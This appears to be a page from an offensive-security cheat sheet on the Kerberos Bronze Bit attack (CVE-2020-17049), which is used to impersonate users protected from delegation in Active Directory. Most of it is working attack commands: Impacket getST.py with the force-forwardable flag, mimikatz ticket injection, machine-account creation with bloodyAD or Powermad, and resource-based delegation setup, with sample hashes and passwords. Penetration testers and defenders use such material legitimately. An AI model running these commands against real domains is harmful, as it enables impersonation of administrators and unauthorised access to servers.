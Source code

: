 # Kerberos - Bronze Bit

CVE-2020-17049

> An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users** group and any other users explicitly configured as **sensitive and cannot be delegated**.

> Patch is out on November 10, 2020, DC are most likely vulnerable until [February 2021](https://support.microsoft.com/en-us/help/4598347/managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049).

:warning: Patched Error Message : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`

Requirements:

* Service account's password hash 
* Service account's with `Constrained Delegation` or `Resource Based Constrained Delegation`
* [Impacket PR #1013](https://github.com/SecureAuthCorp/impacket/pull/1013) 

**Attack #1** - Bypass the `Trust this user for delegation to specified services only – Use Kerberos only` protection and impersonate a user who is protected from delegation.

```powershell
# forwardable flag is only protected by the ticket encryption which uses the service account's password 
$ getST.py -spn cifs/Service2.test.local -impersonate Administrator -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1 -force-forwardable -dc-ip <Domain controller> # -> Forwardable

$ getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes aad3b435b51404eeaad3b435b51404ee:7c1673f58e7794c77dead3174b58b68f -aesKey 4ffe0c458ef7196e4991229b0e1c4a11129282afb117b02dc2f38f0312fc84b4 test.local/Service1 -force-forwardable

# Load the ticket
.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit

# Access "c$"
ls \\service2.test.local\c$
```

**Attack #2** - Write Permissions to one or more objects in the AD
* Windows/Linux:
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d test.local --host 10.100.10.5 add computer AttackerService 'AttackerServicePassword'
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d test.local add rbcd 'Service2$' 'AttackerService$'

    # Execute the attack
    getST.py -spn cifs/Service2.test.local -impersonate User2 -dc-ip 10.100.10.5 -force-forwardable 'test.local/AttackerService$:AttackerServicePassword'
    ```
* Windows only:
    ```powershell
    # Create a new machine account
    Import-Module .\Powermad\powermad.ps1
    New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
    .\mimikatz\mimikatz.exe "kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit

    # Set PrincipalsAllowedToDelegateToAccount
    Install-WindowsFeature RSAT-AD-PowerShell
    Import-Module ActiveDirectory
    Get-ADComputer AttackerService
    Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
    Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount

    # Execute the attack
    python .\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardable

    # Load the ticket
    .\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit | Out-Null
    ```


## References

* [CVE-2020-17049: Kerberos Bronze Bit Attack – Practical Exploitation - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)
* [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [Kerberos Bronze Bit Attack (CVE-2020-17049) Scenarios to Potentially Compromise Active Directory](https://www.hub.trimarcsecurity.com/post/leveraging-the-kerberos-bronze-bit-attack-cve-2020-17049-scenarios-to-compromise-active-directory)